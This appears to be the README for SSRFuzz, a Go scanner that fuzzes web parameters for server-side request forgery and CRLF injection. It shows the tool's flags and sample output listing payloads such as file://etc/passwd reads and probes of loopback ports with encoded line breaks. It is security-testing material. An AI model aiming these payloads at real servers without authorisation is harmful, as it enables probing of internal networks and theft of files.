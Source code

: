 # SSRFUZZ

SSRFuzz is a tool to find Server Side Request Forgery vulnerabilities, with CRLF chaining capabilities

## Why?
- I wanted to write a tool in Golang for concurrency
- I wanted to fuzz parameters for SSRF vulnerablities, as well as fuzz _both_ paths and parameters for CRLF injections
- I was inspired by Orange's work for chaining these types of vulnerabilities together (https://blog.orange.tw)

## Installation

Run the following command to intsall

```bash
go get -u github.com/ryandamour/ssrfuzz
```

## Usage

```go

  ██████   ██████  ██▀███    █████▒█    ██ ▒███████▒▒███████▒
▒██    ▒ ▒██    ▒ ▓██ ▒ ██▒▓██   ▒ ██  ▓██▒▒ ▒ ▒ ▄▀░▒ ▒ ▒ ▄▀░
░ ▓██▄   ░ ▓██▄   ▓██ ░▄█ ▒▒████ ░▓██  ▒██░░ ▒ ▄▀▒░ ░ ▒ ▄▀▒░ 
  ▒   ██▒  ▒   ██▒▒██▀▀█▄  ░▓█▒  ░▓▓█  ░██░  ▄▀▒   ░  ▄▀▒   ░
▒██████▒▒▒██████▒▒░██▓ ▒██▒░▒█░   ▒▒█████▓ ▒███████▒▒███████▒
▒ ▒▓▒ ▒ ░▒ ▒▓▒ ▒ ░░ ▒▓ ░▒▓░ ▒ ░   ░▒▓▒ ▒ ▒ ░▒▒ ▓░▒░▒░▒▒ ▓░▒░▒
░ ░▒  ░ ░░ ░▒  ░ ░  ░▒ ░ ▒░ ░     ░░▒░ ░ ░ ░░▒ ▒ ░ ▒░░▒ ▒ ░ ▒
░  ░  ░  ░  ░  ░    ░░   ░  ░ ░    ░░░ ░ ░ ░ ░ ░ ░ ░░ ░ ░ ░ ░
      ░        ░     ░               ░       ░ ░      ░ ░    
                                           ░        ░        

===============================================================
SSRFUZZ v1.0.0
by Ryan D'Amour @ryandamour 
===============================================================A scanner for all your SSRF Fuzzing needs

Usage:
  crlfmap scan [flags]

Flags:
  -c, --cookie string          Cookie to use for requests
      --crlf-path              Add CRLF payloads to all available paths (ie: site.com/%0Atest.php)
      --delay int              The time each threads waits between requests in milliseconds (default 100)
  -d, --domains string         Location of domains with parameters to scan
  -h, --help                   help for scan
  -x, --http-method string     HTTP Method - GET or POST (default "GET")
  -o, --output string          Location to save results
      --skip-crlf              Skip CRLF fuzzing
      --skip-network           Skip network fuzzing
      --skip-scheme            Skip scheme fuzzing
  -s, --slack-webhook string   Slack webhook to send findings to a channel
  -t, --threads int            Number of threads to run crlfmap on (default 50)
      --timeout int            The amount of time needed to close a connection that could be hung (default 10)
  -u, --user-agent string      User agent for requests (default "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36")
  -v, --verbose                verbose output
```

```bash
Usage: 
echo "http://url_to_fuzz" | ssrfuzz scan
cat file_of_domains.txt | ssrfuzz scan
ssrfuzz scan -d file_of_domains.txt
```

```go
* Scanning http and scheme payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan
 
[!] Scheme payload match:
* http://192.168.1.10/test.php?u=file://etc/passwd 200

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.ph?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
```

```go
* Scanning only http payloads w/ crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:80%23%OA 200
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:8080%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:443%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:25%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:22%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
* http://192.168.1.10/test.php?u=http://127.127.127.127:445%23%OA 500
```

```go
* Scanning only http payloads w/o crlf:

echo "http://192.168.1.10/test.php?u=" | go run main.go scan --skip-scheme --skip-crlf

[!] Interesting payloads found
* http://192.168.1.10/test.php?u=http://127.1.0.0:80 200
* http://192.168.1.10/test.php?u=http://127.1.0.0:8080 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:443 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:22 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:25 500
* http://192.168.1.10/test.php?u=http://127.1.0.0:445 500
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)

## Sponsored By
[Stage2Security](https://www.stage2sec.com)
![alt text](https://miro.medium.com/max/168/1*Pzr_iwx12ycGpGg0K0Yauw.png)
